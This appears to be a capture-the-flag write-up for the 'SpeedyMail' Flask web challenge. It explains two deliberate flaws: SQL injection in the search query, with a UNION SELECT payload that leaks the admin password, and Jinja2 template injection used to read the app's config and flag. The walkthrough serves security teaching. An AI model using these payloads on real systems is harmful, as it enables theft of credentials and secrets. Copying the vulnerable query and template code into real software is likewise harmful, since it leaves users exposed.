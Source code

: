 # SpeedyMail

### Web

SpeedyMail is a simple web service that provides its users with email features such as composing and reading messages. The challenge provides the [source code](app.py_935d48beeeacae5e7db8c452842638a4) for the application. The goal is to figure out the admin's password.

![speedymail_1](speedymail_1.png)



There are a couple different ways to approach for this challenge. First, let's sign up and log in to see what we can do on the web app. After composing an email to ourselves, we can see the email showing up in our inbox.

![speedymail_2](speedymail_2.png)



Clicking on an email icon to the left displays the content of the selected email.

![speedymail_3](speedymail_3.png)



#### Vulnerability #1 (SQL Injection)

From reading the source, we can easily locate an SQL injection bug.

```python
...

@app.route('/')
def index():
    user = get_user()
    if user is None:
        return redirect(url_for('login'))
    c = db().cursor()
    q = request.args.get('q', '')
    c.execute('SELECT date, subject, users.name, messages.id FROM messages JOIN users ON messages.from_user_id = users.id WHERE to_user_id = "%d" AND subject LIKE "%%%s%%"' % (user['id'], q))
    messages = [{
        'date': datetime.strptime(x[0], '%Y-%m-%d %H:%M:%S'),
        'subject': x[1],
        'from': x[2],
        'id': x[3],
    } for x in c.fetchall()]

...
```

The bug is in `index()` method that handles the default root route. This is also where the search query is used. On line 130, the SQL query is created with a user-supplied input (`q`) without any filter or validation. This allows us to inject arbitrary SQL query in `LIKE` clause.

With `union` query, we can easily fetch the admin user's password. However, we should be careful about the python code that follows the SQL query we executed. The `date` field in message object tries to parse the first column, which is `date` column, in specific format — namely, `%Y-%m-%d %H:%M:%S`.

So the queries like `" UNION SELECT 1,2,3,4 --` will fail because the first column is not in the right format. The correct way to inject and leak out the admin's password looks like this:

```
" UNION SELECT "2017-11-11 11:11:11",password,3,4 FROM users WHERE username="admin" --
```

![speedymail_4](speedymail_4.png)



We found the flag: `speedy_web_hacker!`



#### Vulnerability #2 (Server-Side Template Injection)

This Flask app makes use of Jinja2 template engine. In `view()` method, which displays an email detail, we find an SSTI vulnerability. Specifically, on Line 278, the web app blindly trusts user-controllable input (`row[3]`, aka message body) and uses it as part of the server side rendering.

```python
...
    return render_template_string(MAIN_HEADER + '''
<h1 class="title">View</h1>
    <div class="field">
        <label class="label">From</label>
        <div class="control has-icons-left">
            {{ from_name }}
        </div>
    </div>
    <div class="field">
        <label class="label">Date</label>
        <div class="control has-icons-left">
            {{ date.strftime('%Y-%m-%d') }}
        </div>
    </div>
    <div class="field">
        <label class="label">Subject</label>
        <div class="control has-icons-left">
            {{ subject }}
        </div>
    </div>
    <div class="field">
        <label class="label">Message</label>
        <div class="control has-icons-left">
            <textarea class="textarea" readonly>''' + row[3] + '''</textarea>
        </div>
    </div>
    ''' + MAIN_FOOTER, user=user, from_name=row[2], subject=row[1], date=datetime.strptime(row[0], '%Y-%m-%d %H:%M:%S'))

...
```

This results in a serious security vulnerability where we can access the context the template engine has at the time of rendering, or run python code. In order to test this, we can send an email to ourselves again with the following content.

![speedymail_5](speedymail_5.png)

When we read the above message, we see the following.

![speedymail_6](speedymail_6.png)

We can tell that the expression we put in the template was evaluated.

One of the context object that is exposed to the template engine is `config`. The `config` object is passed in from Flask, and contains interesting items inside. By providing `{{ config }}` as a message, we get this.

![speedymail_7](speedymail_7.png)

Of these interesting items in `config` object, we see the `DEBUG`, `SECRET_KEY`, and `FLAG`(!).

```python
c.execute('INSERT INTO users (name, username, password) VALUES (?, ?, ?)', ('Administrator', 'admin', str(app.config['FLAG'])))
```

On Line 419, we see that admin's password was read from the app's config. So can we read out the flag through SSTI? Let's pass in `{{ config.FLAG }}` and find out what we get.

![speedymail_8](speedymail_8.png)

It displays an emoji of the flag. Definitely not the flag we were looking for. Then, we notice that `str` method is called when `app.config['FLAG']` was accessed. The `config.Flag` object seems to implement both  `__unicode__` and `__str__`. Let's try again with `{{ config.FLAG.__str__() }}`.



![speedymail_9](speedymail_9.png)



Yay, flag.

